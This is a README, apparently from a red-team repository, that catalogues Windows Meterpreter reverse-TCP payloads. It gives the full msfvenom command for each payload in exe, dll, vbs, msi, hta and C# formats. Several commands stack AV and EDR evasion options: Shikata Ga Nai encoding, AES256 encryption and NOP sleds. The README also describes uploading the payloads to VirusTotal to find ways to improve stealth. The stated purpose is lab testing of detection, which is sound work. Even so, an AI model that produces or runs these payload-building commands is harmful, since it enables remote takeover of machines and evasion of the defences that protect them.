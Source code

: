 Here is the corrected version of your README.md:

---

# Payload Generated with Msfvenom

This directory contains payloads generated using the `msfvenom` tool, which is widely utilized for creating and testing malicious payloads in controlled environments. The payloads included here serve as a baseline for analyzing antivirus (AV) and Endpoint Detection and Response (EDR) detection capabilities.

---

## File Details

### `Payload1.exe`
- **Description**: A reverse TCP payload designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o Payload1.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload2.exe`
- **Description**: A reverse TCP payload encoded using Shikata Ga Nai, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai -f exe -o Payload2.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload3.exe`
- **Description**: A reverse TCP payload encrypted using AES256, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> --encrypt aes256 --encrypt-key secret -f exe -o Payload3.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload4.exe`
- **Description**: A reverse TCP payload with multiple evasion techniques (encoding, encryption, and optimization), designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Executable (`.exe`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f exe -o Payload4.exe
```

Replace `<Your_IP>` with the attacker's IP address and `<Your_Port>` with the desired port for the reverse connection.

---

### `Payload.dll`
- **Description**: A reverse TCP payload in DLL format, suitable for techniques such as DLL Hijacking or Reflective DLL Injection.
- **Architecture**: 64-bit Windows
- **Type**: Dynamic-Link Library (`.dll`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f dll -o Payload.dll
```

---

### `Payload.vbs`
- **Description**: A reverse TCP payload in Visual Basic Script format, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Visual Basic Script (`.vbs`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f vbs -o Payload.vbs
```

---

### `Payload.msi`
- **Description**: A reverse TCP payload in MSI format, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: Installer Package (`.msi`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f msi -o Payload.msi
```

---

### `Payload.hta`
- **Description**: A reverse TCP payload in HTA format, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: HTML Application (`.hta`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -e x86/shikata_ga_nai --iterations 3 --nopsled 17 --smallest --encrypt aes256 --encrypt-key secret -f hta-psh -o Payload.hta
```

---

### `Payload.cs`
- **Description**: A reverse TCP payload in C# format used in Basic and Avanced Shellcode runners, designed for testing AV and EDR detection.
- **Architecture**: 64-bit Windows
- **Type**: C# Payload (`.cs`)

---

## Generation Command

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> EXITFUNC=thread -f csharp -o Payload.cs
```

---

## Detection Analysis

The payloads were uploaded to VirusTotal to evaluate detection rates across various antivirus engines. The results serve as a baseline to identify opportunities for improving stealth through encoding, obfuscation, and other evasion techniques.

---

## Legal Notice

- **For Educational and Research Purposes Only**: These payloads are strictly intended for testing in isolated environments, such as virtual machines or lab setups.
- **Prohibited Usage**: Unauthorized use or deployment on live systems or production environments is illegal and against organizational policies.
- **Responsibility Disclaimer**: The creator assumes no liability for misuse of the provided tools or files.
